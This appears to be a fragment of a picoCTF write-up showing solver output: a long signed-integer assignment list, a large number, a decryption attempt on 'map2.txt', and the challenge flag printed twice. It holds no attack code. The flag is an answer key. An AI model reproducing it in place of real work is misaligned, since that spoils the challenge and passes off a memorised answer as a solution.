[1, -2, 3, 4, -5, -6, 7, 8, -9, 10, -11, -12, 13, 14, -15, -16, 17, 18, -19, 20, 21, -22, -23, -24, -25, 26, 27, 28, -29, -30, 31, -32, 33, 34, 35, 36, -37, 38, -39, 40, -41, 42, -43, -44, -45, 46, -47, 48, 49, 50, 51, 52, -53, 54, 55, 56, -57, 58, 59, -60, 61, -62, -63, 64, 65, 66, 67, -68, 69, -70, 71, -72, -73, 74, 75, -76, -77, -78, 79, -80, -81, 82, 83, 84, -85, 86, 87, 88, -89, 90, 91, -92, 93, -94, -95, -96, -97, 98, -99, 100, -101, -102, 103, -104, -105, -106, 107, -108, 109, 110, 111, -112, 113, 114, -115, 116, 117, -118, -119, -120, 121, -122, 123, -124, -125, 126, -127, 128, 129, -130, -131, 132, 133, -134, -135, 136, 137, -138, -139, 140, 141, 142, 143, -144, 145, -146, -147, 148, -149, 150, 151, -152, 153, -154, 155, 156, 157, 158, -159, -160, 161, 162, 163, 164, -165, 166, 167, 168, -169, 170, -171, -172, -173, 174, 175, -176, -177, 178, 179, -180, 181, -182, 183, 184, 185, -186, 187, 188, 189, -190, 191, -192, -193, -194, 195, 196, -197, -198, 199, 200, -201, -202, 203, 204, 205, 206, -207, 208, 209, 210, -211, 212, -213, 214, 215, 216, 217, -218, 219, -220, 221, 222, 223, 224, -225, 226, -227, 228, 229, 230, 231, -232, 233, -234, -235, -236, 237, 238, -239, 240, -241, 242, 243, 244, 245, -246, 247, -248, -249, -250, 251, 252, -253, -254, 255, 256, -257, -258, 259, 260, 261, 262, -263, 264, -265, -266, 267, -268, 269, 270, -271, 272, -273, 274, 275, 276, 277, -278, -279, 280, 281, 282, 283, 284, -285, -286, 287, 288, 289, 290, 291, -292, -293, 294, 295, 296, 297, -298, 299, 300, 301, -302, 303, -304, -305, -306, 307, 308, -309, -310, 311, -312, 313, -314, -315, 316, -317, 318, 319, -320, 321, -322, 323, 324, 325, 326, -327, -328, 329, 330, 331, 332, -333, 334, 335, 336, -337, 338, -339, 340, 341, 342, 343, -344, 345, -346, -347, -348, 349, 350, -351, 352, -353, 354, 355, 356, 357, -358, 359, -360, -361, -362, 363, 364, -365, -366, 367, 368, -369, 370, -371, 372, 373, 374, -375, 376, -377, -378, 379, -380, 381, -382, 383, 384, 385, -386, 387, -388, 389, 390, 391, 392, -393, 394, -395, 396, 397, 398, 399, -400, 401, -402, 403, 404, 405, 406, -407, 408, -409, -410, -411, 412, 413, -414, 415, -416, 417, 418, 419, 420, -421, 422, -423, 424, 425, 426, 427, -428, 429, -430, -431, -432, 433, 434, -435, 436, -437, 438, 439, 440, 441, -442, 443, -444, -445, -446, 447, 448, -449, -450, 451, 452, -453, -454, 455, 456, 457, 458, 459, -460, 461, -462, 463, 464, 465, -466, 467, -468, -469, 470, -471, 472, -473, 474, -475, -476, 477, -478, 479, 480, -481, 482, -483, 484, 485, 486, -487, 488, -489, -490, 491, -492, 493, 494, -495, -496, 497, 498, 499, 500, 501, -502, 503, -504, 505, 506, 507, 508, -509, 510, -511, 512, 513, 514, 515, -516, 517, -518, 519, 520, 521, 522, -523, -524, 525, 526, 527, 528, 529, -530, 531, -532, 533, 534, 535, -536, 537, -538, -539, 540, -541, 542, -543, 544, 545, 546, -547, 548, -549, 550, 551, 552, 553, -554, 555, -556, 557, 558, 559, 560, -561, 562, -563, -564, -565, 566, 567, -568, 569, -570, -571, -572, -573, -574, 575, -576, -577, 578, 579, -580, -581, 582, 583, 584, 585, -586, 587, -588, -589, 590, -591, 592, -593, 594, -595, -596, 597, -598, 599, -600, 601, 602, 603, -604, 605, -606, 607, 608, 609, 610, -611, 612, -613, 614, 615, 616, 617, -618, 619, -620, -621, -622, 623, 624, -625, -626, 627, -628, 629, 630, 631, -632, 633, -634, 635, 636, 637, 638, -639, 640, -641, 642, 643, 644, 645, -646, 647, -648, 649, 650, 651, 652, -653, 654, -655, 656, 657, 658, 659, -660, 661, -662, 663, 664, 665, 666, -667, 668, -669, -670, -671, 672, 673, -674, 675, -676, 677, 678, 679, 680, -681, 682, -683, 684, 685, 686, 687, -688, 689, -690, 691, 692, 693, 694, -695, 696, -697, 698, 699, 700, 701, -702, 703, -704, -705, -706, 707, 708, -709, -710, 711, -712, 713, -714, -715, 716, -717, 718, -719, 720, 721, 722, -723, 724, -725, 726, 727, 728, 729, -730, 731, -732, 733, 734, 735, 736, -737, 738, -739, 740, 741, 742, 743, -744, 745, -746, 747, 748, 749, 750, -751, 752, -753, -754, -755, 756, 757, -758, -759, 760, -761, 762, -763, -764, 765, -766, 767, -768, 769, 770, 771, -772, 773, -774, 775, 776, 777, 778, -779, 780, -781, 782, 783, 784, 785, -786, 787, -788, -789, -790, 791, 792, -793, 794, -795, 796, 797, 798, 799, -800, 801, -802, 803, 804, 805, 806, -807, 808, -809, -810, -811, 812, 813, -814, -815, 816, 817, -818, 819, -820, 821, 822, 823, 824, -825, -826, 827, 828, 829, 830, 831, -832, 833, -834, 835, 836, 837, -838, 839, 840, 841, -842, 843, -844, -845, -846, 847, 848, -849, -850, 851, -852, 853, 854, 855, -856, 857, -858, 859, 860, 861, 862, -863, 864, -865, -866, -867, 868, 869, -870, 871, -872, 873, 874, 875, 876, -877, 878, -879, -880, -881, 882, 883, -884, 885, -886, -887, -888, 889, 890, -891, -892, 893, 894, -895, -896, 897, 898, 899, 900, -901, 902, -903, -904, 905, -906, 907, 908, -909, 910, -911, 912, 913, 914, -915, 916, -917, -918, 919, -920, 921, -922, 923, -924, -925, 926, -927, 928, 929, -930, 931, -932, 933, 934, 935, 936, -937, -938, 939, 940, 941, 942, -943, 944, -945, -946, 947, -948, 949, 950, -951, 952, -953, 954, 955, 956, 957, -958, 959, -960, 961, 962, 963, -964, 965, 966, 967, -968, 969, -970, -971, -972, 973, 974, -975, -976, 977, 978, -979, 980, -981, 982, 983, 984, 985, -986, -987, 988, 989, 990, 991, 992, -993, 994, -995, 996, 997, 998, -999, 1000, 1001, 1002, -1003, 1004, -1005, 1006, 1007, 1008, 1009, -1010, 1011, -1012, 1013, 1014, -1015, -1016, -1017, -1018, -1019, -1020, -1021, -1022, -1023, -1024, -1025, -1026, -1027, -1028, -1029, -1030, -1031, -1032, -1033, -1034, -1035, -1036, -1037, -1038, -1039, -1040, -1041, -1042, -1043, -1044, -1045, -1046, -1047, -1048, -1049, -1050, -1051, -1052, -1053, -1054, -1055, -1056, -1057, -1058, -1059, -1060, -1061, -1062, -1063, -1064, -1065, -1066, -1067, -1068, -1069, -1070, -1071, -1072, -1073, -1074, -1075, -1076, -1077, -1078, -1079, -1080, -1081, -1082, -1083, -1084, -1085, -1086, -1087, -1088, -1089, -1090, -1091, -1092, -1093, -1094, -1095, -1096, -1097, -1098, -1099, -1100, -1101, -1102, -1103, -1104, -1105, -1106, -1107, -1108, -1109, -1110, -1111, -1112, -1113, -1114, -1115, -1116, -1117, -1118, -1119, -1120, -1121, -1122, -1123, -1124, -1125, -1126, -1127, -1128, -1129, -1130, -1131, -1132, -1133, -1134, -1135, -1136, -1137, -1138, -1139, -1140, -1141]
219465169949186335766963147192904921805
Attempting to decrypt map2.txt...
[1, -2, 3, 4, -5, -6, 7, 8, -9, 10, -11, -12, 13, 14, -15, -16, 17, 18, -19, 20, 21, -22, -23, -24, -25, 26, 27, 28, -29, -30, 31, -32, 33, 34, 35, 36, -37, 38, -39, 40, -41, 42, -43, -44, -45, 46, -47, 48, 49, 50, 51, 52, -53, 54, 55, 56, -57, 58, 59, -60, 61, -62, -63, 64, 65, 66, 67, -68, 69, -70, 71, -72, -73, 74, 75, -76, -77, -78, 79, -80, -81, 82, 83, 84, -85, 86, 87, 88, -89, 90, 91, -92, 93, -94, -95, -96, -97, 98, -99, 100, -101, -102, 103, -104, -105, -106, 107, -108, 109, 110, 111, -112, 113, 114, -115, 116, 117, -118, -119, -120, 121, -122, 123, -124, -125, 126, -127, 128, 129, -130, -131, 132, 133, -134, -135, 136, 137, -138, -139, 140, 141, 142, 143, -144, 145, -146, -147, 148, -149, 150, 151, -152, 153, -154, 155, 156, 157, 158, -159, -160, 161, 162, 163, 164, -165, 166, 167, 168, -169, 170, -171, -172, -173, 174, 175, -176, -177, 178, 179, -180, 181, -182, 183, 184, 185, -186, 187, 188, 189, -190, 191, -192, -193, -194, 195, 196, -197, -198, 199, 200, -201, -202, 203, 204, 205, 206, -207, 208, 209, 210, -211, 212, -213, 214, 215, 216, 217, -218, 219, -220, 221, 222, 223, 224, -225, 226, -227, 228, 229, 230, 231, -232, 233, -234, -235, -236, 237, 238, -239, 240, -241, 242, 243, 244, 245, -246, 247, -248, -249, -250, 251, 252, -253, -254, 255, 256, -257, -258, 259, 260, 261, 262, -263, 264, -265, -266, 267, -268, 269, 270, -271, 272, -273, 274, 275, 276, 277, -278, -279, 280, 281, 282, 283, 284, -285, -286, 287, 288, 289, 290, 291, -292, -293, 294, 295, 296, 297, -298, 299, 300, 301, -302, 303, -304, -305, -306, 307, 308, -309, -310, 311, -312, 313, -314, -315, 316, -317, 318, 319, -320, 321, -322, 323, 324, 325, 326, -327, -328, 329, 330, 331, 332, -333, 334, 335, 336, -337, 338, -339, 340, 341, 342, 343, -344, 345, -346, -347, -348, 349, 350, -351, 352, -353, 354, 355, 356, 357, -358, 359, -360, -361, -362, 363, 364, -365, -366, 367, 368, -369, 370, -371, 372, 373, 374, -375, 376, -377, -378, 379, -380, 381, -382, 383, 384, 385, -386, 387, -388, 389, 390, 391, 392, -393, 394, -395, 396, 397, 398, 399, -400, 401, -402, 403, 404, 405, 406, -407, 408, -409, -410, -411, 412, 413, -414, 415, -416, 417, 418, 419, 420, -421, 422, -423, 424, 425, 426, 427, -428, 429, -430, -431, -432, 433, 434, -435, 436, -437, 438, 439, 440, 441, -442, 443, -444, -445, -446, 447, 448, -449, -450, 451, 452, -453, -454, 455, 456, 457, 458, 459, -460, 461, -462, 463, 464, 465, -466, 467, -468, -469, 470, -471, 472, -473, 474, -475, -476, 477, -478, 479, 480, -481, 482, -483, 484, 485, 486, -487, 488, -489, -490, 491, -492, 493, 494, -495, -496, 497, 498, 499, 500, 501, -502, 503, -504, 505, 506, 507, 508, -509, 510, -511, 512, 513, 514, 515, -516, 517, -518, 519, 520, 521, 522, -523, -524, 525, 526, 527, 528, 529, -530, 531, -532, 533, 534, 535, -536, 537, -538, -539, 540, -541, 542, -543, 544, 545, 546, -547, 548, -549, 550, 551, 552, 553, -554, 555, -556, 557, 558, 559, 560, -561, 562, -563, -564, -565, 566, 567, -568, 569, -570, -571, -572, -573, -574, 575, -576, -577, 578, 579, -580, -581, 582, 583, 584, 585, -586, 587, -588, -589, 590, -591, 592, -593, 594, -595, -596, 597, -598, 599, -600, 601, 602, 603, -604, 605, -606, 607, 608, 609, 610, -611, 612, -613, 614, 615, 616, 617, -618, 619, -620, -621, -622, 623, 624, -625, -626, 627, -628, 629, 630, 631, -632, 633, -634, 635, 636, 637, 638, -639, 640, -641, 642, 643, 644, 645, -646, 647, -648, 649, 650, 651, 652, -653, 654, -655, 656, 657, 658, 659, -660, 661, -662, 663, 664, 665, 666, -667, 668, -669, -670, -671, 672, 673, -674, 675, -676, 677, 678, 679, 680, -681, 682, -683, 684, 685, 686, 687, -688, 689, -690, 691, 692, 693, 694, -695, 696, -697, 698, 699, 700, 701, -702, 703, -704, -705, -706, 707, 708, -709, -710, 711, -712, 713, -714, -715, 716, -717, 718, -719, 720, 721, 722, -723, 724, -725, 726, 727, 728, 729, -730, 731, -732, 733, 734, 735, 736, -737, 738, -739, 740, 741, 742, 743, -744, 745, -746, 747, 748, 749, 750, -751, 752, -753, -754, -755, 756, 757, -758, -759, 760, -761, 762, -763, -764, 765, -766, 767, -768, 769, 770, 771, -772, 773, -774, 775, 776, 777, 778, -779, 780, -781, 782, 783, 784, 785, -786, 787, -788, -789, -790, 791, 792, -793, 794, -795, 796, 797, 798, 799, -800, 801, -802, 803, 804, 805, 806, -807, 808, -809, -810, -811, 812, 813, -814, -815, 816, 817, -818, 819, -820, 821, 822, 823, 824, -825, -826, 827, 828, 829, 830, 831, -832, 833, -834, 835, 836, 837, -838, 839, 840, 841, -842, 843, -844, -845, -846, 847, 848, -849, -850, 851, -852, 853, 854, 855, -856, 857, -858, 859, 860, 861, 862, -863, 864, -865, -866, -867, 868, 869, -870, 871, -872, 873, 874, 875, 876, -877, 878, -879, -880, -881, 882, 883, -884, 885, -886, -887, -888, 889, 890, -891, -892, 893, 894, -895, -896, 897, 898, 899, 900, -901, 902, -903, -904, 905, -906, 907, 908, -909, 910, -911, 912, 913, 914, -915, 916, -917, -918, 919, -920, 921, -922, 923, -924, -925, 926, -927, 928, 929, -930, 931, -932, 933, 934, 935, 936, -937, -938, 939, 940, 941, 942, -943, 944, -945, -946, 947, -948, 949, 950, -951, 952, -953, 954, 955, 956, 957, -958, 959, -960, 961, 962, 963, -964, 965, 966, 967, -968, 969, -970, -971, -972, 973, 974, -975, -976, 977, 978, -979, 980, -981, 982, 983, 984, 985, -986, -987, 988, 989, 990, 991, 992, -993, 994, -995, 996, 997, 998, -999, 1000, 1001, 1002, -1003, 1004, -1005, 1006, 1007, 1008, 1009, -1010, 1011, -1012, 1013, 1014, -1015, -1016, -1017, -1018, -1019, -1020, -1021, -1022, -1023, -1024, -1025, -1026, -1027, -1028, -1029, -1030, -1031, -1032, -1033, -1034, -1035, -1036, -1037, -1038, -1039, -1040, -1041, -1042, -1043, -1044, -1045, -1046, -1047, -1048, -1049, -1050, -1051, -1052, -1053, -1054, -1055, -1056, -1057, -1058, -1059, -1060, -1061, -1062, -1063, -1064, -1065, -1066, -1067, -1068, -1069, -1070, -1071, -1072, -1073, -1074, -1075, -1076, -1077, -1078, -1079, -1080, -1081, -1082, -1083, -1084, -1085, -1086, -1087, -1088, -1089, -1090, -1091, -1092, -1093, -1094, -1095, -1096, -1097, -1098, -1099, -1100, -1101, -1102, -1103, -1104, -1105, -1106, -1107, -1108, -1109, -1110, -1111, -1112, -1113, -1114, -1115, -1116, -1117, -1118, -1119, -1120, -1121, -1122, -1123, -1124, -1125, -1126, -1127, -1128, -1129, -1130, -1131, -1132, -1133, -1134, -1135, -1136, -1137, -1138, -1139, -1140, -1141]
Congrats the flag for map2.txt is: picoCTF{36cc0cc10d273941c34694abdb21580d__aw350m3_ari7hm37ic__}
```
</details>

`picoCTF{36cc0cc10d273941c34694abdb21580d__aw350m3_ari7hm37ic__}`
